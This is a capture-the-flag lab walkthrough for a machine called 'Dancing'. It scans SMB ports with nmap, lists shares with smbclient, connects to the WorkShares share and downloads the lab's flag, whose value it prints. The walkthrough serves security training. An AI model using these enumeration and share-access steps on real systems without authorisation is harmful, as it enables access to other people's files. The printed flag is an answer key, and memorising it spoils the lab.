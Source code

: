 # CTF Walkthrough: Dancing

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Steps](#2-steps)

---

## 1. Introduction

**Category:** [Server Message Block (SMB)]  
**Difficulty Level:** Very Easy   
**CVE(s) involved:** -

---

## 2. Steps

1. Service Enumeration
    - Command: `nmap -sV 10.129.45.129`
        - Output:
            ```
            PORT     STATE SERVICE       VERSION
            135/tcp  open  msrpc         Microsoft Windows RPC
            139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
            445/tcp  open  microsoft-ds?
            5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
            |_http-server-header: Microsoft-HTTPAPI/2.0
            |_http-title: Not Found
            Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

            ```
2. List all shares in SMB
    - Command: `smbclient -L 10.129.45.129`
        - Output:
            ```
            Sharename       Type      Comment
            ---------       ----      -------
            ADMIN$          Disk      Remote Admin
            C$              Disk      Default share
            IPC$            IPC       Remote IPC
            WorkShares      Disk
            ```

3. Go to WorkShares
    - Command: `smbclient \\\\10.129.45.129\\WorkShares`

4. Get Flag
    - Command: 
        ```
        cd James.P
        get flag.txt
        ```
    - Flag : 5f61c10dffbc77a704d76016a22f1664


